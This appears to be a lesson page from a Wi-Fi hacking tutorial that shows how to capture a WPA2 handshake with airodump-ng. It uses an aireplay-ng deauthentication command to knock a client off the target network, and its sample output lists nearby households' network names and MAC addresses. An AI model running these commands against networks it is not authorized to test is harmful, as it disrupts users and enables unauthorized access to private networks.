```yaml
---
title: Capturing the Handshake
type: default
layout: page
---
```


If none of the methods previously shown worked, now you'd need to crack the
WPA/WPA2 encryption or try an Evil Twin Attack (we'll talk about this one
later). Now we are going to learn how to crack the WPA/WPA2 encryption.

Like I said before, when these encryption were designed, the developers knew
about the weaknesses in WEP and they made sure that they fixed them, therefore,
we cannot use the same method used in WEP to crack WPA and WPA2.

In WPA2, the keys are unique, temporary and much longer than they were in WEP,
therefore, the packets sent in the air contain no information that is useful for
us, it doesn't matter even if we capture one million packets, we can't use them
to crack the key. The only packets that contain useful information are the
handshake packets.

The handshake packets are four packets transferred between a client and the
router when the client connects to the network. In this lesson, I am going to
show you how to capture these packets and in the next lessons, we will see how
to use them to crack the WPA or WPA2 key.

First of all, as usual, you'd want to run _airodump-ng_ against all the networks
around you, I've already done that and got this output:

```bash

 CH  3 ][ Elapsed: 0 s ][ 2021-01-07 14:52                                         
                                                                                                                                                                                                      
 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                                                                                      
 CC:35:40:44:F3:69  -75        4        0    0  11  54e  WPA2 CCMP   PSK  Ismael y emi
 58:23:8C:84:78:F9  -71        3        1    0   5  54e  WPA2 CCMP   PSK  UNE_19D2
 9C:C8:FC:4D:01:8F  -72        5        4    1  11  54e. WPA2 CCMP   PSK  FamiliaH
 C4:27:95:62:EE:1E  -64       14        9    4  11  54e  WPA2 CCMP   PSK  HOME-EE1E
 9C:C8:FC:4D:10:CA  -19       12        7    0   6  54e. WPA2 CCMP   PSK  TIGO-7A54
 50:75:F1:EA:83:A2  -70        7        0    0  11  54e. WPA2 CCMP   PSK  PEDROJUAN

 BSSID              STATION            PWR   Rate    Lost    Frames  Probe
```

As I've done it so far, my target network is _TIGO-7A54_.

The first thing we are going to do is to run _airodump-ng_ on our target network
and store the data in a file exactly the same way that we used to do with WEP.
We are going to execute the following command:

```bash
airodump-ng --bssid [TargetNetworkBSSID] --channel [TargetNetworkChannel] --write wpa_handshake [InterfaceInMonitorMode]
```

If I replace the _[...]_ with the actual data of my target network, the command
would look like this:

```bash
airodump-ng --bssid 9C:C8:FC:4D:10:CA --channel 10 --write wpa_handshake wlp2s0mon
```

We are going to execute that command and airodump-ng will be executing against
our target network. Once _airodump-ng_ is working, all we have to do is sit down
and wait for the handshake to be captured. As I said before, the handshake is
sent when a client connects to the network, so we'll have to wait until a new
client connects to the network.

Once a new client connects to the network, we will capture the handshake and
_airodump-ng_ will tell us that the handshake has been captured. Alternatively,
we can use something we learned before which is a deauthentication attack, we
know that using that attack we can disconnect a client from the network so we
can capture the handshake in a very short period of time, in this way we won't
have to sit down and wait for someone to voluntarily connect to the network.

We already know how to perform a deauthentication attack, we use _aireplay-ng_
we use the _--deauth_ argument, then we specify a large number of packets to
keep the client disconnected for a long period of time, this time I am going to
set it just to 4, to only send four deauthentication packets so the client we
are going to deauthenticate will be disconnected for a very short period of time
so they won't even feel that they got disconnected but it would be enough for
the handshake to be send. Then, we will append the argument _-a_ to our command
to specify the BSSID of our target, then we'll use the argument _-c_ to specify
the MAC of the client we want to disconnect and finally, we will give it the
name of our interface in monitor mode, the entire command looks like this:

```bash
aireplay-ng --deauth 4 -a 9C:C8:FC:4D:10:CA -c D0:9C:7A:DD:B0:5D wlp2s0mon
```

And once this command is finished executing, the output of airodump-ng now will
look like this:

```bash
 CH  6 ][ Elapsed: 42 s ][ 2021-01-07 15:14 ][ WPA handshake: 9C:C8:FC:4D:10:CA
 
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 9C:C8:FC:4D:10:CA  -21   0      423      251    2   6  54e. WPA2 CCMP   PSK  TIGO-7A54

 BSSID              STATION            PWR   Rate    Lost    Frames  Probe

 9C:C8:FC:4D:10:CA  D0:9C:7A:DD:B0:5D  -23   54e- 1e  9467      177  TIGO-7A54
```

As you can see in the upper-right section (_WPA handshake_) airodump-ng captured
and stored the handshake successfully.

